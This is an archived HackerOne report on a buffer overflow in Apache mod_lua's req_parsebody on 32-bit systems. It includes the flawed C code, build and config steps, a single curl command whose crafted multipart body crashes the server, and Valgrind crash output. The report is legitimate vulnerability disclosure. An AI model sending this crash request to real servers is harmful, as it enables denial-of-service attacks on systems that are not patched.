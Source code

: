 # Buffer overflow in req_parsebody method in lua_request.c

## Report Details
- **Report ID**: 1434056
- **URL**: https://hackerone.com/reports/1434056
- **State**: Closed
- **Severity**: high
- **Submitted**: 2021-12-22T13:20:52.665Z
- **Disclosed**: 2022-01-04T15:31:01.108Z

## Reporter
- **Username**: chamal
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Software Versions
-------------------
Ubuntu - 18.04 (32-bit)
Apache 2.4.51 (32-bit)

Description
-------------
This bug is present in "req_parsebody" method of modules/lua/lua_request.c file.
Below mentioned lines of code cause this bug.

```cpp
  ...
  size_t  vlen = 0;
  ...
  ...
  vlen = end - crlf - 8;
  buffer = (char *) apr_pcalloc(r->pool, vlen+1);
  memcpy(buffer, crlf + 4, vlen);
  ...
```

Above code does not check whether the result of (end - crlf) is greater than or equal to 8.
So it is possible to make the result of (end - crlf - 8), negative.
Sending this HTTP request causes the result to be -1.
   `curl -v -X POST -H 'content-type: multipart/form-data; boundary=-' --data-binary $'-\r\n\r\naaa-' http://127.0.0.1/test.lua`

Since "vlen" is of type "size_t", -1 will become 4294967295. This is the maximum value of size_t data type in 32 bit systems.
Then vlen+1 is passed to apr_pcalloc method.
So the actual size allocated is 0.
Since the allocated buffer is too small there will be an overflow and crash in next memcpy statement.

Steps to Reproduce
--------------------
1.  Build Apache web server with Lua module
   ./configure --enable-lua=shared
   make
   make install 

2.  Enable Lua module with Apache web server.
    Add these lines to httpd.conf file.
 ```
   LoadModule lua_module modules/mod_lua.so
   <Files "*.lua">
    SetHandler lua-script
   </Files>
 ```
3. Copy attached F1555487 file to htdocs folder.

4. Start Apache web server in debug single worker mode.
   `./httpd -X -d /home/apache/install-directory/`

5. Send this HTTP request with CURL.
    `curl -v -X POST -H 'content-type: multipart/form-data; boundary=-' --data-binary $'-\r\n\r\naaa-' http://127.0.0.1/test.lua`
    Apache web server will crash.

Valgrind Output
----------------
Command: valgrind ./httpd -X -d /home/apache/install-directory/

 Invalid write of size 1
 at 0x483513B: memcpy (in /usr/lib/valgrind/vgpreload_memcheck-x86-linux.so)
 by 0x501355B: req_parsebody (lua_request.c:415)
 by 0x503628E: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
 by 0x5041A1F: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
 by 0x50365E5: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
 by 0x5030D96: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
 by 0x5035C1A: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
 by 0x5036886: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
 by 0x5032556: lua_pcallk (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
 by 0x500D02B: lua_handler (mod_lua.c:323)
 by 0x15F9E4: ap_run_handler (config.c:169)
 by 0x16040C: ap_invoke_handler (config.c:443)
 Address 0x12aec000 is not stack'd, malloc'd or (recently) free'd

 Process terminating with default action of signal 11 (SIGSEGV)
 Access not within mapped region at address 0x12AEC000
 at 0x483513B: memcpy (in /usr/lib/valgrind/vgpreload_memcheck-x86-linux.so)
 by 0x501355B: req_parsebody (lua_request.c:415)
 by 0x503628E: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
 by 0x5041A1F: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
 by 0x50365E5: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
 by 0x5030D96: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
by 0x5035C1A: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
by 0x5036886: ??? (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
by 0x5032556: lua_pcallk (in /usr/lib/i386-linux-gnu/liblua5.2.so.0.0.0)
by 0x500D02B: lua_handler (mod_lua.c:323)
by 0x15F9E4: ap_run_handler (config.c:169)
 by 0x16040C: ap_invoke_handler (config.c:443)

## Impact

May be possible to use in a denial of service attack.

## Attachments
- test.lua
